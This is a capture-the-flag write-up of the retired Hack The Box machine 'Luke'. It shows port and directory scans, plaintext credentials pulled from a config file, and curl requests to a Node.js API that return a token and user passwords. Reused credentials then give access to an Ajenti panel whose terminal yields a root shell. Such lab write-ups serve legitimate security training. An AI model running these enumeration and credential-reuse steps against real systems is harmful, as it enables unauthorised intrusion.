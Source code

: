 ```yaml
---
layout: post
title:  "HTB - Luke"
date:   2020-06-01 20:00 +0100
tags: writeups
initial: 2019-09-01
---
```

Writeup for the retired HTB machine Luke  
Link: https://www.hackthebox.eu/home/machines/profile/190  
IP: 10.10.10.137

<!--more-->

## Recon
```
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
22/tcp   open  ssh?  
3000/tcp open  http    Node.js Express framework  
8000/tcp open  http    Ajenti http control panel  
```
The FTP holds a note from Derry to Chihiro.

### Dirb scan for main
```
START_TIME: Sun Sep  1 15:04:07 2019
URL_BASE: http://10.10.10.137/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137/ ----
==> DIRECTORY: http://10.10.10.137/css/                                                              
+ http://10.10.10.137/index.html (CODE:200|SIZE:3138)                                                
==> DIRECTORY: http://10.10.10.137/js/                                                               
+ http://10.10.10.137/LICENSE (CODE:200|SIZE:1093)                                                   
+ http://10.10.10.137/management (CODE:401|SIZE:381)                                                 
==> DIRECTORY: http://10.10.10.137/member/                                                           
==> DIRECTORY: http://10.10.10.137/vendor/   
```

### Dirb scan for 3000:
```
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)                                                  
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56) 
```

### gobuster for main
Important: **Check for extensions! (-x)**  
`gobuster dir -u http://10.10.10.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html`  
```
===============================================================
2019/09/01 15:58:46 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
Progress: 163025 / 220561 (73.91%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
```

This yields `http://10.10.10.137/config.php`, which holds creds:
`root:Zk6heYCyv6ZE9Xcg`
These creds can be stuffed into :3000/login, but using username *root* doesn't work... but *admin* does :D

`curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login`

The resulting token can be used to enumerate users:
`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users`

```json
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

By enumerating everything on port 3000, one can observe that the endpoint `/user/{username}` exists. So we can query for every single user:

`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users/admin`  
which yields:
```json 
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
with these, we can try to login to IP/management and find a config.json. That one holds credentials as well (looks like munin?)  
`root:KpMasng6S5EtTy9Z`  
With that credentials, one can login to :8000 (Ajenti).

Ajenti provides a comfortable web interface for management - including a *Terminal* (located under *Tools*).  
Opening that Terminal yields a root shell on the system. Done!